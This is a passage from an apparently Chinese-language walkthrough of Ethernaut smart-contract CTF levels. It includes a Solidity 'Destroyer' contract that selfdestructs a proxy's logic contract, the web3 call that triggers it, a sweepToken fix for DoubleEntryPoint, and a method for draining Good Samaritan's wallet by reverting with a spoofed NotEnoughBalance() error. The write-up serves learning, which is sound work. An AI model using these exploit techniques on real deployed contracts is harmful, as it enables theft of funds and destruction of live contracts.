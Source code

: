 ```solidity
        )

        // 3. 将返回数据复制到内存
        returndatacopy(0, 0, returndatasize())

        // 4. 根据调用结果返回或回滚
        switch result
        case 0 { revert(0, returndatasize()) }
        default { return(0, returndatasize()) }
    }
}
```

然后创建自定义合约以执行 selfdestruct
部署一个恶意合约，使用 selfdestruct 摧毁逻辑合约：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Destroyer {
    function destroy(address payable target) external {
        selfdestruct(target);
    }
}
```

调用 destroy 函数，目标是逻辑合约地址：
```javascript
await destroyerContract.methods.destroy(logicAddress).send({ from: player });
```

## 26. DoubleEntryPoint ✅[Easy]

直接中间合约调用sweepToken(LGT)就完了，修复的话
```solidity
function sweepToken(IERC20 token) external onlyOwner {
    require(address(token) != address(det), "Can't sweep DET tokens");
    require(address(token) != address(legacyToken), "Can't sweep LegacyToken");
    token.transfer(owner(), token.balanceOf(address(this)));
}
```

## 27. Good Samaritan ✅[Easy]

这题直接找到Inotify发现这个可以利用，然后还有个点就是利用
```solidity
catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                ...
            }
        }
```
这里直接捕获到对应的错误就把剩余的代币全转了，而且转之前也不看看是不是真的amount<10了，所以可以利用前一个实现notify的时候返回对应的err( revert("NotEnoughBalance()");)，然后就可以把剩余的代币全转了
